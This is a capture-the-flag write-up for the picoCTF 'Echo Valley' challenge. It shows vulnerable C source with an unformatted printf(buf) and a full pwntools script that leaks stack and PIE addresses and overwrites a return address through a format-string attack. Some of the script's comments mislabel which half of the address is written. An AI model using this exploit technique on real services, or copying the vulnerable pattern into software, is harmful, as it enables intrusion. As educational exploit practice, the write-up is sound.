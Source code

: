 After launching the instance, we are given the description:

**The echo valley is a simple function that echoes back whatever you say to it. 
But how do you make it respond with something more interesting, like a flag?
Download the source: [valley.c](https://challenge-files.picoctf.net/c_shape_facility/3540df5468ae2357d00a7a3e2d396e6522b24f7a363cbaff8badcb270d186bda/valley.c)
Download the binary: [valley](https://challenge-files.picoctf.net/c_shape_facility/3540df5468ae2357d00a7a3e2d396e6522b24f7a363cbaff8badcb270d186bda/valley)
Connect to the service at `nc shape-facility.picoctf.net 49319`**

and also the hint:

**Hints: Ever heard of a format string attack?**

After downloading the source and the binary, we take a look at the source code: 
```
#include <stdio.h>

#include <stdlib.h>

#include <string.h>

  

void print_flag() {

    char buf[32];

    FILE *file = fopen("/home/valley/flag.txt", "r");

  

    if (file == NULL) {

      perror("Failed to open flag file");

      exit(EXIT_FAILURE);

    }

    fgets(buf, sizeof(buf), file);

    printf("Congrats! Here is your flag: %s", buf);

    fclose(file);

    exit(EXIT_SUCCESS);

}

  

void echo_valley() {

    printf("Welcome to the Echo Valley, Try Shouting: \n");

  

    char buf[100];

  

    while(1)

    {

        fflush(stdout);

        if (fgets(buf, sizeof(buf), stdin) == NULL) {

          printf("\nEOF detected. Exiting...\n");

          exit(0);

        }

  

        if (strcmp(buf, "exit\n") == 0) {

            printf("The Valley Disappears\n");

            break;

        }

  

        printf("You heard in the distance: ");

        printf(buf);

        fflush(stdout);

    }

    fflush(stdout);

}

  

int main()

{

    echo_valley();

    return 0;

}
```


The *vuln.c* program has 3 functions: main(), echo_valley(), and print_flag(). 
Looking at echo_valley we immediately see a ```printf(buf);```that uses the buffer size 100 without format parameters. As such, we can assume this is what the hint was referring to. 

I took a look at the executable binary file with ```checksec``` 

![alt text](Pasted image 20250324190354.png)
Most of the protections were enabled, so instead of trying to overflow, we will need to replace the return value of the stack in the echo_valley() function to the address of the print_flag() function.

With this information in mind, I tried inputting multiple %p to find addresses to leak. 

Using **%21$p**, we get the return value
![[Pasted image 20250324192246.png]]

and **%20$p** is the stack leak
![[Pasted image 20250324192511.png]]

Using this information, we found the offset using GDB to get the return address of the echo_valley() function and also the print_flag() address. 

Here is our python code that automates this process using pwntools
```
from pwn import *

  

context.update(arch="amd64")

  

def leak(p):

    payload = b"%20$p.%21$p"

    p.sendlineafter(b"Try Shouting: \n", payload)

    return p.recv().strip().split(b" ")[-1]

  

#p = process("./valley")

p = remote("shape-facility.picoctf.net", 64728)

  

all_leaks       = leak(p)

pie_leak        = int(all_leaks.split(b".")[1], 16)

stack_leak      = int(all_leaks.split(b".")[0], 16)

pie_base        = pie_leak - 0x1413

print_flag      = pie_base + 0x1269

target_address  = stack_leak - 8

  

print("[+] pie leak: 0x%x" % pie_leak)

print("[+] stack leak: 0x%x" % stack_leak)

print("[+] pie base @ 0x%x" % pie_base)

print("[+] print_flag @ 0x%x" % print_flag)

print("[+] overwrite target @ 0x%x (echo_valley() return address)" % target_address)

  

# write the upper 4 bytes

writes  = {target_address: print_flag & 0xffffffff }

payload = fmtstr_payload(6, writes)

print(payload)

p.sendline(payload)

p.recvuntil(b"You heard in the distance: ")

  

# write lower 4 bytes

writes = {target_address + 4: print_flag >> 32 }

payload = fmtstr_payload(6, writes)

p.sendline(payload)

p.recvuntil(b"You heard in the distance: ")

  

p.sendline(b"exit")

p.recvuntil(b"The Valley Disappears\n")

  

p.interactive()
```

After running the code and remotely connecting to the server we get the flag. 
![[Pasted image 20250324193118.png]]

